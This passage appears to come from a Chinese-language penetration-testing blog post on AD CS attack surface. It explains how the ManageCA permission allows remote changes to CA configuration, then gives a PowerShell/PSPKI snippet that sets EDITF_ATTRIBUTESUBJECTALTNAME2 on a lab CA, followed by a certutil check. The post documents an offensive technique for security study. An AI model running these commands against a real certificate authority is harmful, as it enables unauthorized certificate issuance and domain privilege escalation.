 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/SjmNUkJsBo4CFnD.png)

Microsoft 和其他文献中对这些角色/权限进行了细分，但很难确定每个权限的确切安全含义。具体来说，很难确定攻击者如何远程滥用这些权限。技术规范 “*[MS-CSRA]: Certificate Services Remote Administration Protocol*” 在 “*3.1.1.7 Permissions*” 章节部分详细说明了 “CA 管理员” 和 “证书管理员” 权限可以针对 CA 远程执行的相关 DCOM 方法。

对于 CA 管理员权限，`ICertAdminD2::SetConfigEntry` 方法可以用于 “*...used to set the CA's persisted configuration data that is listed in section 3.1.1.10*” 中所提到的 CA 的持久配置数据。“*3.1.1.10 Configuration Data*” 节中包括 `Config_CA_Accept_Request_Attributes_SAN`，它在 “*[MS-WCCE] 3.2.1.1.4115*” 节中被定义为 “*A Boolean value that indicates whether  the CA accepts request attributes that specify the subject alternative name for the certificate  being requested*”。这正对应于在前文 “CA EDITF_ATTRIBUTESUBJECTALTNAME2 - ESC6” 部分所描述的 `EDITF_ATTRIBUTESUBJECTALTNAME2` 标志。

2020 年，PKIsolutions 发布了 PSPKI 的一些新增功能，以支持直接使用各种 AD CS (D)COM 接口，包括 `ICertAdminD2::SetConfigEntry`。PKISolutions 发布了一篇关于此类实现的文章 [*PowerShell PKI (PSPKI) 3.7 enhancements – Certification Authority API (part 1)*](https://www.pkisolutions.com/powershell-pki-pspki-3-7-enhancements-certification-authority-api-part-1/)，其中介绍了包括有关如何使用 `SetConfigEntry` 的有用示例。

因此，综上所述，如果攻击者在证书颁发机构 CA 上拥有具有 ManageCA 权限的主体，其可以使用 PSPKI 远程开启 `EDITF_ATTRIBUTESUBJECTALTNAME2` 位以允许在任何模板注册请求中设置 SAN。如下通过 PowerShell Cmdlet  完成该滥用过程。

```powershell
Import-Module PSPKI
$ConfigReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "DC01.pentest.com"
$ConfigReader.SetRootNode($true)
$ConfigReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$ConfigReader.SetConfigEntry(1376590, "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

certutil -config "DC01.pentest.com\pentest-DC01-CA" -getreg "policy\EditFlags"
```
